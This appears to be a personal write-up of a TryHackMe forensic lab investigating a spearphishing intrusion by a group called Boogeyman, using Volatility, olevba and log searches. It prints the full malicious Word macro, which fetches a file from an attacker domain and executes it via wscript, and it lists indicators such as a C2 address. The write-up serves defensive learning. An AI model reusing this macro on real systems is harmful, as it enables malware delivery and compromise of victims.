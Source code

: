 ```yaml
---
{"dg-publish":true,"permalink":"/mitreattck-analysis/tryhackme/spearphishing-by-threat-group-boogeyman/"}
---
```


[[]]
### Case Description
---
A spearphishing attack performed by threat group named Boogeyman on human resource specalist, the attacker performed OSINT on the company and found out there is an open position so they sent a crafted email to the human resource.
## Tools
---
- Volatility - for volatile memory analysis.
- Olevba - for analysing and extracting VBA macros from MS documents.

# Analysis

Screenshot of the email:

![Pasted image 20240922160400.png](/img/user/x/images/Pasted%20image%2020240922160400.png)
- Sender: westaylor23@outlook[.]com
- Receiver: maxine[.]beck@quicklogisticsorg[.]onmicrosoft[.]com
- Attachment: Resume_WesleyTaylor.doc
	- Hash: 52c4384a0b9e248b95804352ebec6c5b 
	- VirusTotal score is 41/65.

```vb
Sub AutoOpen()

spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With

Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")

End Sub
```

1. Makes a GET request to files[.]boogeymanisback[.]lol domain `update.png`.
2. Then renamed the file as `update.js`.
3. Creates `Wscript.Shell` to execute VBscript files this case it is javascript.
#### Memory Analysis
---
Listing all process captured:

```
vol -f <file> windows.pslist > pslist.txt 
```

Command output:
![Pasted image 20240922162118.png](/img/user/x/images/Pasted%20image%2020240922162118.png)
Then using the process ID of wscript.exe which is 4260 on the same file replacing 'wscript' with the PID:

![Pasted image 20240922162307.png](/img/user/x/images/Pasted%20image%2020240922162307.png)
Checking for network connection using `windows.netscan` and saving it to file to check for network activities related to PID 6216 (updater.exe):

![Pasted image 20240922163319.png](/img/user/x/images/Pasted%20image%2020240922163319.png)
- 128.199.95.189: 8080 is most likely the command and control of the threat group.
- `filescan` plugin reveals the full path of **updater.exe** in `C:\Windows\Tasks\updater.exe`

![Pasted image 20240922164647.png](/img/user/x/images/Pasted%20image%2020240922164647.png)
The malicious attachment is found on:

```C
C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor.doc
```

Then viewing the command line, we see this with plugin `windows.cmdline`:

![Pasted image 20240922165130.png](/img/user/x/images/Pasted%20image%2020240922165130.png)
Dumping memory map of process 4464 with the command:

```
vol -f WIN.dmp windows.memmap --pid 4464 --dump
```

Command output:

![Pasted image 20240922172441.png](/img/user/x/images/Pasted%20image%2020240922172441.png)
So it is most likely the attacker used `schtasks` to schedule their persistence:

```
strings <file.raw> | grep "schtasks"
```

Command Output:

![Pasted image 20240922172933.png](/img/user/x/images/Pasted%20image%2020240922172933.png)
Mimikatz is found and installed on the machine using the filter `event.code: 1 and "github.com"`:

![Pasted image 20240924174632.png](/img/user/x/images/Pasted%20image%2020240924174632.png)
Same filter but replace 'github.com' with `mimikatz.exe`, shows the credentials used:

![Pasted image 20240924175215.png](/img/user/x/images/Pasted%20image%2020240924175215.png)
We can see that the user dumped credentials and used it to gain access to another machine which is **itadmin** machine:

![Pasted image 20240924175630.png](/img/user/x/images/Pasted%20image%2020240924175630.png)
Searching for the keyword `ls` which is short for listing directories shows this:

![Pasted image 20240924185445.png](/img/user/x/images/Pasted%20image%2020240924185445.png)
And then searching for 'ITFiles' without other filters:

![Pasted image 20240924185535.png](/img/user/x/images/Pasted%20image%2020240924185535.png)
Based on the previous `mimikatz.exe` log entries sorted by timestamp, we can see two more users these are 'itadmin' and 'allan.smith' so we can search for 'allan.smith' and find this:

![Pasted image 20240924194127.png](/img/user/x/images/Pasted%20image%2020240924194127.png)





